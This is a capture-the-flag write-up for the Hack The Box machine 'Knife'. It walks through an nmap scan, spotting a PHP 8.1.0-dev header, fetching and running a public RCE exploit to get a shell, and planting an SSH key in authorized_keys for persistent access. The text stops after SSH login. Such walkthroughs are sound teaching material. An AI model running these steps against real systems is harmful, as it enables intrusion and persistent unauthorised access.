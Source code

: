 ## ----------->> Knife <<-------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.242 -p-
-----    

    Nmap scan report for 10.10.10.242
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigating to website http://10.10.10.242/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Knife/1.png)

// Tried some directories searchs(gobuster, dirsearch, feroxbuster) but didnt get much...
// So i tried other approach let see the head of request

    $ curl -i http://10.10.10.242/
-----

    HTTP/1.1 200 OK
    Date: Wed, 04 Aug 2021 08:37:46 GMT
    Server: Apache/2.4.41 (Ubuntu)
    X-Powered-By: PHP/8.1.0-dev
    Vary: Accept-Encoding
    Transfer-Encoding: chunked
    Content-Type: text/html; charset=UTF-8
    
// Notice: PHP/8.1.0-dev 

// Searching in ExploitDB result me interesting python script for RCE (Remote Code Execution)

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Knife/2.png)
    
// Lets download that script and run him

    $ wget https://www.exploit-db.com/download/49933
----

    $ python3 49933
    Enter the full host url:
    http://10.10.10.242/

    Interactive shell is opened on http://10.10.10.242/ 
    Can't acces tty; job crontol turned off.
    $ id
    uid=1000(james) gid=1000(james) groups=1000(james)

// We got a shell !!! and the flag !!!

    $ cat /home/james/user.txt
    62fb412........................


// since we got SSH service open and a shell Lets try import our pub key to authorized_key of james 

// First generate a ssh key 

    $ ssh-keygen
    
    $ ls
    id_rsa  id_rsa.pub
    
// Copy the public key (id_rsa.pub)

// Now, on targeted host make file 'authorized_keys' (if there isnt)

    $ touch /home/james/.ssh/authorized_keys
    
// and import the key to 'authorized_keys'

    echo "ssh-rsa AAAAB3NzaC1yc......4mb5RwC/b8uyZRc= kali@kali" >> /home/james/.ssh/authorized_keys
    
// Now we can SSH to host with user james

    $ ssh -i id_rsa james@10.10.10.242
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

    james@knife:~$ 


// 
